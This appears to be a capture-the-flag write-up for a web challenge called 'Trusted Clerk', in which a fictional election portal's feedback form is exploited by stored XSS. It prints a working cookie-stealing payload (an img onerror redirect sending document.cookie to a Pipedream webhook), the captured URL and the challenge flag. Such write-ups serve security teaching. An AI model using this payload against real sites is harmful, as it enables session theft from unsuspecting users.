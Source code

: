 ```yaml
---
layout: writeup
title: Trusted Clerk
tags: WebX
excerpt: 'The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience. “Your voice matters twice - once for your candidate, and once for your country.”'
---
```


## Description

The national elections in Freedonia have officially begun. In the spirit of transparency and continuous improvement, the Ministry of Electoral Integrity has launched a new early voting portal. Citizens are encouraged not only to cast their vote - but also to leave anonymous feedback about their voting experience.

“Your voice matters twice - once for your candidate, and once for your country.”


http://redac.ted:9002/


## Solution

The link takes you to a pretty small website with a `Home` page, `About` page, `Contact` page, and a `Vote` page. The `Vote` page looks the most promosing as it has a form on it that sends a request to the backend server.

![Photo of the `Vote` page which shows the form with its fields of `candidate` and `feedback`](/assets/images/writeups_images/Trusted-Clerk/1.png)

This form seems to send back the two data points `candidate` and `feedback`

This is likely the feedback that the description hints at, and the description hints that the feedback will be read at somepoint.

This seems like a pretty basic XSS attack. We send the service feedback that contains malicous code that swipes their cookies.

For something like this I suggest using [Pipedream](pipedream.com). This service allows you to create `web hooks` in your workflows that you can then query, and see all traffic towards them. It helps in situations like this, when you need to have the client send their cookies remotely to your pipedream `webhook`

So time to create a payload. I went with the pretty standard image on error load approach.

```html
<img src="e" onerror="window.location.href = 'https://eo6fu53ufvqhqft.m.pipedream.net/' + document.cookie;">
```

If you are attempting to do this yourself, you will need to change the url to the url of your workflow, as this one was associated with my individual workflow.

So just inputing the payload into the `feedback` section of the form and waiting a few minutes returns this in my workflow request history:

![Photo of my pipedream workflow request history showing the request with the flag in it](/assets/images/writeups_images/Trusted-Clerk/2.png)

The exact link this goes to is

```text
https://eo6fu53ufvqhqft.m.pipedream.net/flag=secedu%7Bspr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3%7D
```

As you can see this has the cookie called `flag`, the value of this `flag` cookie is the flag for the challenge in URL encoding. So the flag is `secedu{spr1nkle_s0me_http0nly_0n_y0ur_ch0colate_ch1p_c0oki3}`
